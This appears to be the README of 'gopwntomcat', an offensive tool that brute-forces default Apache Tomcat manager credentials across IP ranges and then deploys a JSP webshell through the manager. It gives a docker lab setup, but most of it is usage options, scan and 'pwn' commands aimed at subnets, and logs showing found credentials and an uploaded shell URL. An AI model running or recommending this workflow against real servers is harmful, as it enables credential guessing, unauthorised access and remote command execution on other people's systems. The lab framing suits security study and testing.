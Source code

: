 # DISCLAIMER
This repository is for research purposes only, the use of this code is your responsibility.

I take NO responsibility and/or liability for how you choose to use any of the source code available here. By using any of the files available in this repository, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again, ALL files available here are for EDUCATION and/or RESEARCH purposes ONLY.

# gopwntomcat

This is a small little scanner and exploiting script. It will detect (brute-force) default credentials on a tomcat instance. If you find valid credentials you can use it to upload a command shell or a custom jsp shell.

## Example Environment

I used a docker container to test this script and so can you.

You create two files `tomcat-users.xml` and `context.xml` with the following content. I created them within `/tmp/`.

**tomcat-users.xml**:
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

**context.xml**:
```xml
<Context antiResourceLocking="true" privileged="true" >
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
   <Realm className="org.apache.catalina.realm.CombinedRealm">
    <Realm className="org.apache.catalina.realm.LockOutRealm"
      failureCount="50" lockOutTime="1" >
	    <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
	      resourceName="UserDatabase"/>
    </Realm>
  </Realm>
</Context>
```

Then you start the docker container like so:

```bash
$ docker run \
  --name tomcat \
  -it --rm \
  -p 8080:8080 \
  -v /tmp/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
  -v /tmp/context.xml:/tmp/context.xml \
  tomcat \
  /bin/bash -c "mv /usr/local/tomcat/webapps /usr/local/tomcat/webapps2; mv /usr/local/tomcat/webapps.dist /usr/local/tomcat/webapps; cp /tmp/context.xml /usr/local/tomcat/webapps/manager/META-INF/context.xml; catalina.sh run"
```

If this succeeds you will have a tomcat running at http://your-ip:8080 with the manager @ /manager/html and the default login `tomcat:s3cret`.

## Usage
```
gopwntomcat v0.0.1
Usage: gopwntomcat -mode [scan|pwn] [mode specific options] (default: mode scan)

Scan options:
	-port		The port to use while scanning		(default: 8080)
	-ssl		Whether or not to use ssl	    (default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-threads	Concurrent threads while scanning	(default: 1)
	-rhost		IP or CIDR - you can define multiple

Pwn options:
	-port		The port to use for connection		(default: 8080)
	-ssl		Whether or not to use ssl	    	(default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-user		Valid username for logon	    (default: tomcat)
	-pass		Valid password for logon	    (default: tomcat)
	-customjsp	Define custom jsp to upload	    (default: embedded cmd jsp)
	-rhost		Single IP, no multiple -rhost flags allowed

Examples:
	Scan a /24 net with 5 threads and different manager url:
		gopwntomcat -targeturi /custom/path/to/manager/html -rhost 192.168.1.0/24
	Scan multiple ips on different port with ssl:
		gopwntomcat -port 8443 -ssl -rhost 192.168.1.12 -rhost 10.10.10.100
	Pwn a tomcat server you know the credentials of:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret
	Pwn a tomcat server you know the credentials of with custom jsp:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret -customjsp ./custom.jsp

```

## Scan
With the above environment in place a successful scan could look like this:

```bash
$ ./gopwntomcat -rhost 192.168.1.0/24 -threads 5
2021/02/24 14:54:03 Started scan
----------------------------------------------------------------
2021/02/24 14:54:03 Host 192.168.1.223 responded to /manager/html request
2021/02/24 14:54:03 Host 192.168.1.223 requires authentication. Proceeding with password guessing...
Valid credentials found @192.168.1.223 - tomcat:s3cret
----------------------------------------------------------------
2021/02/24 14:54:33 Scan completed
```

## Exploit
After you got valid credentials you can upload a command shell using this command:

```bash
./gopwntomcat -mode pwn -rhost 192.168.1.223 -user tomcat -pass s3cret
2021/02/24 14:57:45 Let the pwn begin
2021/02/24 14:57:45 Fetching sessin ID and CSRF token...
2021/02/24 14:57:45 Uploading and deploying n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB ...
2021/02/24 14:57:45 Uploading 1059 bytes as n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB.war ...
2021/02/24 14:57:45 Upload was successful. Find your shell @ http://192.168.1.223:8080/n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB/AJ8IVUezjlrg1g4DsKI80PVTinkchs8e.jsp
```

Navigating your browser to the link will result in a webshell showing up:

![screenshot](/screenshot.png "Command shell in browser")